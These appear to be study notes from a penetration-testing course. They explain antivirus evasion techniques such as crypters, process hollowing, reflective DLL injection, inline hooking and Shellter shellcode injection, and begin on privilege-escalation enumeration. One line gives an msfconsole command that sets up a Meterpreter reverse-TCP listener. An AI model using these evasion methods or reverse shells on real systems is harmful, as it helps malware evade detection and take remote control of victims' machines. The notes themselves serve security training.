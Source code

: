 	On disk evasion: it focuses on modifying malicious files physically stored on disk in order to avoid detection. There are 4  main techniques to obfuscate files stored on a physical disk: 
		Packers: it generates a functionally equivalent binary with a completely new binary structure, thus with a new signature to bypass AV scanners
		Ofuscators: they reorganize and mutate code in a way that it makes more difficult to reverse engineer it. This includes replacing instructions with semantically equivalent ones, inserting irrelevant instructions (dead code), re-order functions and so on
		Crypters (crypter software): they crytographycally alter eecutable code, adding a decrypting stub that restores the original code upon execution. This decryption happens in memory, leaving on disk only encrypted code and thus evading AV detection
		Software protectors: originally used for legitimate purposes, can also be used to bypass AV detection
	In memory evasion: modern malware often attempts in memory operations, to avoid touching the disk entirely. This technique (in memory injection or PE injection) focuses on the manipulation of volatile memory and does not write any file to disk, which is one of the area of most focus for many antivirus products
		Remote Process Memory Injection: it attempts to inject the payload in the memory of another valid program that is not malicious, The most common way to do this is to leverage a set of Windows APIs to execute the malicious code in a separate thread using the CreateRemoteThread API
		Reflective DLL Injection: it attempts to load a DLL stored by the attacker in the process memory. Unlike regular DLL injection (loading a DLL from disk with the LoadLibrary API), loading a DLL from process memory is not supported by any Windows API and the attackers must write their own API to do that 
		Process Hollowing: attackers first launch a non malicious process in a suspended state. Once launched, the image of this process is removed from memory and replaced with a malicious executable image. Then execution is resumed and malicious code is executed instead of the legitimate process
		Inline hooking: it involves modifying memory and introducing a hook (an instruction that redirects code execution into a function to point the execution flow to our malicious code). Upon executing of the malicious code, the flow will return back to the modified function and resume execution, appearing like only the legitimate code has been executed
Generally speaking, it is very difficult to find an universal solution to bypass AV detection. What is instead doable, is to target a specific AV product/version and focus on avoiding detection for a very specific situation/configuration
PowerShell in-memory Injection:
	A very powerful feature of PowerShell is its ability to interact with Windows APIs. This allows us to implement the in-memory injection process in a PowerShell script. It is much more difficult for AV software to flag a script as malicious, rather then a PE (portable executable), since the script is not compiled, but interpreted and can be changed on the fly at any point in time
Shellter:
	Shellter is a dynamic shellcode injection tool to inject shellcode into legitimate PEs memory space to avoid AV detection. Shellter attempts to use the existing PE"s importAddress table entries to locate functions that will be used fo the memory allocation, transfer and execution of our payload
	In case we have selected a Meterpreter_Reverse_TCP payload to be injected in a PE with Shellter and configured a listener on the attacker machine (i.e.: msfconsole -x "use exploit/multi/handler; set RHOST 10.11.0.22; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 10.11.0.4; exploit"), it is crucial to setup an autorun script to migrate our Meterpreter shell to a separate process immediately after session creation in case the injected PE execution completes quickly. We can setup the autorun script as follows from within msfconsole: set AutoRunScript post/windows/manage/migrate

##### Privilege Escalation Concepts
Direct-to-root compromises are rare in modern environments
There are some common vectors to privilege escalation:
	Misconfigured services
	Insufficient file permissions
	Kernel vulnerabilities
	Vulnerable software running with high privileges
Information gathering:
	Manual enumeration:
		Enumerating users (potential targets for escalation of privileges): 
			Linux: whoami, id, /etc/passwd
			Windows: whoami, net user username, net user
		Enumerating the hostname (can give clues about the function of themachine/server):
			Linux: hostname
			Windows: hostname